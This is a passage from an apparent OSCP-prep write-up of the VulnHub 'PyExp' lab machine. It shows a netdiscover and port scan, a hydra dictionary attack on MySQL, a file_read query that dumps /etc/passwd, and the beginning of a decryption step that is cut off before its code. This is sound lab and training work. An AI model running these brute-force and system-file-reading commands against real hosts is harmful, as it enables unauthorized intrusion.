

repository: nobodynate/nobodynate.github.io · page: OSCP-Prep/VulnHub/PyExp/index.html · generator: mkdocs

# PyExp

we found the IP `netdiscover`

```
192.168.1.151
```

a port scan shows port 1337 (ssh) and 3306 (mysql 5.5.5)

we were able to get the `root` user's password with a dictionary attack via hydra.

```bash
hydra -L scans/users -P /usr/share/wordlists/rockyou.txt 192.168.1.151 mysql -t4 -vv
```

![[Pasted image 20220702233943.png]]

we were able to read arbitrary files with `mysql`

```mysql
select file_read('/etc/passwd');
```

```
root:x:0:0:root:/root:/bin/bash                                                                                             
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin                                                                               
bin:x:2:2:bin:/bin:/usr/sbin/nologin                                                                                          
sys:x:3:3:sys:/dev:/usr/sbin/nologin                                                                                          
sync:x:4:65534:sync:/bin:/bin/sync                                                                                            
games:x:5:60:games:/usr/games:/usr/sbin/nologin                                                                               
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin                                                                               
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin                                                                                  
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin                                                                                   
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin                                                                             
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin                                                                           
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin                                                                                    
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin                                                                          
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin                                                                          
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:101:102:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:104:110::/nonexistent:/usr/sbin/nologin
lucy:x:1000:1000:lucy,,,:/home/lucy:/bin/bash
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
sshd:x:105:65534::/run/sshd:/usr/sbin/nologin
mysql:x:106:112:MySQL Server,,,:/nonexistent:/bin/false
```

we also found some encrypted data in the `data.fernet` table.

using the following python, we were able to decrypt it.
